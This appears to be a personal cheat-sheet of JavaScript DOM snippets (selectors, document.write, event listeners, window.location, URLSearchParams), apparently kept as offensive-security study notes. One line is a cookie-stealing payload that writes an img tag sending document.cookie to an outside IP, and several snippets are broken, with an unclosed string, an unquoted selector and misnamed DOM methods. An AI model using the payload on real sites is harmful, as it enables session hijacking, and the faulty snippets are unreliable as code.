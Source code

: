 # Document Object Model (DOM)

### Basics
```
console.log("Hello World!);

document.cookie


document.getElementById('1');

document.getElementByTagName('div');

document.getElementByClassName('list-items');

document.querySelector(#main-heading);

document.querySelectorAll('div');


document.write('something');

document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
```

### Event Listeners 
```
element.addEventListener("click", function);

element.addEventListener("mouseover", function);
```

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```

## URLSearchParams
```
http://www.somehost.com?name=video#default=1
```

```
let querystring = window.location.search; // ?name=video
let urlParam = new URLSearchParams(querystring);
console.log(urlParam);
let value = urlParam.get('name');
console.log(value);
```

```
(new URLSearchParams(window.location.search)).get('name'); // video
```

```
location.hash // #default=1
```
